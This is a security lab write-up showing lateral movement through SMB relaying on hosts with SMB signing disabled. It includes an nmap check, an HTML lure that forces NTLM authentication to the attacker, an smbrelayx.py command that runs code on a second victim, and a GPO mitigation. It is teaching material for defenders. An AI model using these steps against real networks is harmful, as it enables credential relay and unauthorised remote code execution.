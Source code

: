 # Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled. 

SMB signing is a security mechanism that allows digitally signing SMB packets that enforce their integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with in transit. 

If SMB signing is disabled, packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

`10.0.0.2` -authenticates to-&gt; `10.0.0.5` -relays to-&gt; 10.0.0.6 -executes code with victim1 credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-31-10-45-27.png)

Let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below is an gif showing the technique in action - on the left - victim 1 opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system \(on the right\). Once the authentication attempt comes in, it gets relayed to victim2@10.0.0.6 and ipconfig gets executed:

![](../.gitbook/assets/peek-2018-12-30-22-31.gif)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

## Mitigation

In order to mitigate this type of attack, the best way to do it is use GPOs if possible and set the policy **Microsoft network client: Digitally sign communications \(always\)** to `Enabled`:

![](../.gitbook/assets/screenshot-from-2018-12-31-10-36-45.png)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED`:

![](../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

The same nmap scan we did earlier now shows that the message signing is required:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-31-11-05-59.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc785861\(v=ws.10\)" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728025\(v=ws.10\)" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}



